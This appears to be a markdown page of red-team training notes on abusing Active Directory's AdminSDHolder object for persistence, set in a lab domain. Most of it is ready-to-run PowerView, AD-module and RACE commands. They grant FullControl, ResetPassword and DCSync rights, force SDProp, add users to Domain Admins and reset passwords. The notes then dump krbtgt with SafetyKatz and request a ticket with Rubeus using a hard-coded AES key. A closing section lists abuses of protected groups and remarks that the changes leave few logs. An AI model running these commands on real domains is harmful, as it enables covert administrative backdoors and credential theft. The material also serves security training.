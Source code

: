 **Essentially an ACL baseline that overwrites any changes made to protected groups. This can only be edited with DA (or equivalent) membership**

###### **Adding permissions to `AdminSDHolder` - OPSEC**

Add `FullControl` permissions for a user to the `AdminSDHolder` using PowerView as DA
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student548 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

Using `ActiveDirectory` Module and [RACE](https://github.com/samratashok/RACE) toolkit:
```powershell
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
```

`ResetPassword` and `WriteMembers` permissions to `AdminSDHolder` and PowerView.
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

--- 
##### **After adding permissions to `AdminSDHolder`, `SDProp` must be ran/updated for the changes to take effect**

Manually run `SDProp` with Invoke-SDPropagator.ps1
```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

For pre-Server 2008 machines
```powershell
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

--- 
##### **Confirm permissions as a standard user**

PoweView
```powershell
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student548"}
```

ActiveDirectory Module
```powershell
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'
```
---
##### Abusing Permissions

Abusing `FullControl` with PowerView and AD module
```powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose

Add-ADGroupMember -Identity 'Domain Admins' -Members
testda
```


Abusing `ResetPassword` with PowerView and AD module
```powershell
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose

Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText - Force) -Verbose
```

---
##### Gaining `DCSync` rights to the domain object

PowerView
```powershell
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student548 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

AD Module
```powershell
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -GUIDRight DCSync -Verbose
```

Confirm permissions
```powershell
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student548"}
```

Manually run `SDProp` with Invoke-SDPropagator.ps1
```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

Executing DCSync
```powershell
Loader.exe -path SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt"
```


```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

```

Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups (called Protected Groups)

Security Descriptor Propagator (`SDPROP`) runs every hour and compares the ACL of protected groups and members with the ACL of `AdminSDHolder` and any differences are overwritten on the object ACL

Protected Groups:

| Account Operators | Enterprise Admins            |
| ----------------- | ---------------------------- |
| Backup Operators  | Domain Controllers           |
| Server Operators  | Read-only Domain Controllers |
| Print Operators   | Schema Admins                |
| Domain Admins     | Administrators               |
| Replicator        |                              |

Well known abuse of some of the Protected Groups - All of the below
can log on locally to DC:

| Group             | Abuse                                                                                |
| ----------------- | ------------------------------------------------------------------------------------ |
| Account Operators | Cannot modify DA/EA/BA groups. Can modify nested group within these groups.          |
| Backup Operators  | Backup GPO, edit to add SID of controlled account to a privileged group and Restore. |
| Server Operators  | Run a command as system (using the disabled Browser service)                         |
| Print Operators   | Copy ntds.dit backup, load device drivers                                            |

With DA privileges (Full Control/Write permissions) on the
`AdminSDHolder` object, it can be used as a backdoor/persistence
mechanism by adding a user with Full Permissions (or other interesting
permissions) to the `AdminSDHolder` object

In 60 minutes (when `SDPROP` runs), the user will be added with Full
Control to the AC of groups like Domain Admins without actually being a
member of it


> [!NOTE] **NOTE**
> Adding a new object to the `AdminSDHolder` won't generate any new logs for `WreiteDACL`. The only way to get insights of abuse is by turning logging on group within the Advanced Security Settings


